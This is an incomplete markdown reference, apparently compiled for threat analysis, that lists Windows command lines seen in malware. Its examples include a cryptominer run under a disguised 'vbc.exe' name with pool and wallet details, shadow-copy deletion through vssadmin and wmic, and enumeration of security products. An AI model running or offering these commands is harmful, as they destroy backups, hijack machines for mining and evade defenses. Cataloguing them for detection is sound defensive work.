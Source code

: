 ### timeout
Function: *//will be add later*

Command  line examples:

    timeout /t 1 /nobreak
    timeout /t 300

### vbc.exe
Function: *//will be add later*

Command  line examples:

    vbc.exe -o xmr.pool.minergate.com:45700 -u 1LwkS2UaXY5hrRxR7Kdxo625v41zeHGjxL --cpu-priority 3 --max-cpu-usage 75 --donate-level 1 -p x -t 2
    vbc.exe /noconfig @"%TEMP%\apzjg8gs.cmdline"
    vbc.exe /shtml "%TEMP%\v0xrvacf.goc"
    vbc.exe /stext "%TEMP%\holdermail.txt"

### vssadmin
Function: *//will be add later*

Command  line examples:

    vssadmin Delete Shadows /All /Quiet
    vssadmin delete shadows /all
    vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded

### wget.exe
Function: *//will be add later*

Command  line examples:

    wget.exe http://127.0.0.1:9527 -o "C:\\TestWget.txt" -t 1

### wmic
Function: *//will be add later*

Command  line examples:

    wmic /node:localhost /namespace:\\root\SecurityCenter2 path FirewallProduct get /format:list
    wmic OS get Caption /value
    wmic PAGEFILESET GET MaximumSize /value
    wmic computersystem get domain
    wmic logicaldisk where "DeviceID='C:'" get size
    wmic nicconfig where(ipenabled=true) get index
    wmic path Win32_Processor get Name /value
    wmic path Win32_Processor get NumberOfCores /value
    wmic process where "name='conhost.exe' and ExecutablePath='C:\\windows\\Installer\\conhost.exe'" call Terminate
    wmic shadowcopy delete

### wscript
Function: *//will be add later*
